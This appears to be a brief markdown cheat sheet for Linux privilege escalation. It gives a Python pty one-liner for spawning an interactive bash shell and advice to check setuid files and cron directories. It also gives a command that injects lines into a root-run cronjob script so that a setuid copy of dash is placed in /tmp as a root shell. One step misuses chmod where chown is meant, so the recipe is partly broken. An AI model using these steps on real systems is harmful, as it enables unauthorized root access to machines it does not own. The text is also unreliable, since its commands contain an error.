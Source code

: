 Linux Privilege escalation
==========================

***1. Command to get bash shell from $***

$ python -c 'import pty; pty.spawn("/bin/bash");'  
user@machine:


**2. Identifcation methods**
1. Check su privileged files

2. Check cronjobs
cd /etc/cron* - Check all the folders

**3. Using vulnerable cronjob running in root**
echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit">>/usr/local/sbin/cron-logrotate.sh



